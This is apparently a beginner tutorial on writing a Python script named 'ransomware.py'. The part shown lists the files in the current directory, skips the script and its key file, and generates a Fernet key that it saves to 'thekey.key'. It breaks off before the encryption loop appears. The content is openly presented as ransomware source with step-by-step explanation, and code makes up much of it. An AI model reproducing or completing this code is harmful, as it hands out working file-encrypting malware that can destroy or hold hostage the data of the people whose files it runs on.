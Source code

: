 ```python
import os
from cryptography.fernet import Fernet
```
The os library will help us in listing the files in a directory and determining which files are actual files, to prevent us from grabbing sub directories

We'll import Fernet from the module Cryptography.
Fernet is a symmetric encryption method which makes sure that the message encrypted,
cannot be manipulated or read without the encryption key. It uses URL safe encoding for the key

### Storing the files in a variable
Next we'll create an empt list variable, call it files.
Then we'll loop through the files in  our current directory, using a for loop, 
and add some conditions to check whether the file is a valid file, or it is a file we do not want to encrypt.
```python
files = []
for file in os.listdir():
    if file == 'ransomware.py':
        continue
    if os.path.isfile(file):
        files.append(file)

```
`os.listdir()` gives us a list of all files in the current directory
So in the lost of files, we'll be checking, if the file is our _ransomware.py_ file, we'll leave it alone, and if the file is a valid file and not a directory, then we'll add it to the list variable we created earlier

### Encryption key
Next, we'll use fernet to create a key that will encrypt our files, then we'll save the key in an external file, so that our decryption script can also access it

```python
key = Fernet.generate_key()
with open('thekey.key','wb') as thekey:
    thekey.write(key)

```
We are creating a variable key, and storing the generated key from Fernet, then using the
with keyword, we are opening a file called _thekey.key_ in 'wb' mode, short for write binary, and we are storing that open file as a variable called thekey.
***Nb: if the file doesn't exist, it will be created automatically***
Then we are writing the key we generated to that file.
If you look at your directory now, there's a new file called _thekey.key_.
So we'll again have to update the condition in our first for loop to also exempt the new file _thekey.key_ so we'll go back to the first for loop where we were adding the files to the list and update it accordingly:

```python
for file in os.listdir():
    if file == 'ransomware.py' or file == 'thekey.key':
        <-- snip -->

```
